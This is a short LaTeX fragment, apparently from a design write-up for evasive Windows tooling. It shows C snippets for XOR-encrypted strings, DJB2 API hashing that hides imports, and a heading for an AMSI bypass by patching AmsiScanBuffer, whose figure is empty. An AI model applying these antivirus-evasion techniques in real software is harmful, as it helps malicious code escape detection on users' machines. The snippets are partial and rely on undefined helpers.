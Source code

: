 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{String Obfuscation}

Sensitive strings are XOR-encrypted at compile time and decrypted at runtime:

\begin{lstlisting}[style=cstyle, caption={String Obfuscation Usage}]
// Encrypted string in header
static const unsigned char ENC_NTDLL[] = {
    0x34, 0x2e, 0x3e, 0x36, 0x36, 0x16, 0x3e, 0x36, 0x36
};
#define ENC_NTDLL_LEN 9

// Runtime decryption
void UseString() {
    DECRYPT_STRING(ntdllStr, ENC_NTDLL, ENC_NTDLL_LEN);
    // ntdllStr = "ntdll.dll"
    HMODULE h = GetModuleHandleA(ntdllStr);
    SECURE_CLEAR(ntdllStr, ENC_NTDLL_LEN);  // Wipe from memory
}
\end{lstlisting}

\subsection{API Hashing}

APIs are resolved dynamically using DJB2 hashes to hide suspicious imports:

\begin{lstlisting}[style=cstyle, caption={API Resolution via Hash}]
// Pre-computed hash: djb2("VirtualAlloc") = 0x91AFCA54
#define HASH_VIRTUALALLOC 0x91AFCA54

// Resolve without calling GetProcAddress
fn_VirtualAlloc pVirtualAlloc = (fn_VirtualAlloc)
    GetFunctionByHash(
        GetModuleByHash(HASH_KERNEL32_DLL),
        HASH_VIRTUALALLOC
    );

// Use the resolved function
LPVOID mem = pVirtualAlloc(NULL, 4096, MEM_COMMIT, PAGE_RW);
\end{lstlisting}

\subsection{AMSI Bypass}

AMSI (Antimalware Scan Interface) is bypassed by patching \texttt{AmsiScanBuffer}:

\begin{figure}[H]
\centering
{}
\caption{AMSI Bypass via Memory Patching}
\end{figure}
\end{document}
